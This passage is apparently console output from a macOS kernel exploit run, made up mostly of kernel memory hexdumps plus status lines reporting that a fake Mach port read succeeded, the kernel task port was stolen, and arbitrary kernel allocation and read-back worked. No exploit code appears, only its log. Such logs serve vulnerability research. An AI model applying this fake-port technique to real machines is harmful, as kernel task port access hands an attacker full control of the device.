[0xffffff802f934000+0x210] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x220] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x230] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x240] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x250] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x260] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x270] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x280] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x290] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x300] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x310] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x320] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x330] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x340] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x350] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x360] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x370] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x380] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x390] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x400] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x410] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x420] 00 00 00 00 00 00 00 00  08 A0 ED 2B 80 FF FF FF  |  ...........+....
[0xffffff802f934000+0x430] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x440] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x450] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x460] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x470] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x480] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x490] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x500] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x510] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x520] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x530] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x540] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x550] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x560] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x570] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x580] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x590] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x600] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x610] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x620] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x630] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x640] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x650] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x660] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x670] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x680] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x690] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x6a0] 00 00 00 00 00 00 00 00                           |  ........
=============================
[!] READING VIA FAKE PORT WORKED? 0xffffff803816fcc0
[+] Let's steal that kernel task port!
[i] kernel_vm_map: 0xffffff8020d6e9d0
[*]  !!! STEALED that kernel task port !!!, khexdumping second_pipe_buffer again
=============================
[0xffffff802f934000+0x000] 02 00 00 80 0D D0 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x010] 11 00 00 00 00 00 00 00  66 00 00 00 00 00 00 00  |  ........f.......
[0xffffff802f934000+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 01 00 00 00  |  ................
[0xffffff802f934000+0x050] 00 00 00 04 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x060] 00 92 56 28 80 FF FF FF  A8 40 93 2F 80 FF FF FF  |  ..V(.....@./....
[0xffffff802f934000+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0a0] 63 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  c...............
[0xffffff802f934000+0x0b0] 22 00 00 00 00 00 00 00  64 00 00 00 01 00 00 00  |  ".......d.......
[0xffffff802f934000+0x0c0] 00 00 00 00 00 00 00 00  D0 E9 D6 20 80 FF FF FF  |  ........... ....
[0xffffff802f934000+0x0d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x0f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x100] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x110] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x120] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x130] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802f934000+0x140] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x150] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x160] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x170] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x180] 01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x190] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x1f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x200] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x210] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x220] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x230] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x240] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x250] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x260] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x270] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x280] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x290] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x2f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x300] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x310] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x320] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x330] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x340] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x350] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x360] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x370] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x380] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x390] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x3f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x400] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x410] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x420] 00 00 00 00 00 00 00 00  40 02 D3 28 80 FF FF FF  |  ........@..(....
[0xffffff802f934000+0x430] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x440] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x450] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x460] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x470] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x480] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x490] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x4f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x500] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x510] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x520] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x530] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x540] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x550] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x560] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x570] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x580] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x590] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5a0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5b0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5c0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5d0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5e0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x5f0] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x600] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x610] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x620] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x630] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x640] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x650] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x660] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x670] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x680] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x690] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffff802f934000+0x6a0] 00 00 00 00 00 00 00 00                           |  ........
=============================
[*] allocated: 0xffffff80b0ade000
[*] read back: 0x4141414141414141

seos-iMac-Pro:fakeport_krw_observe seo$
```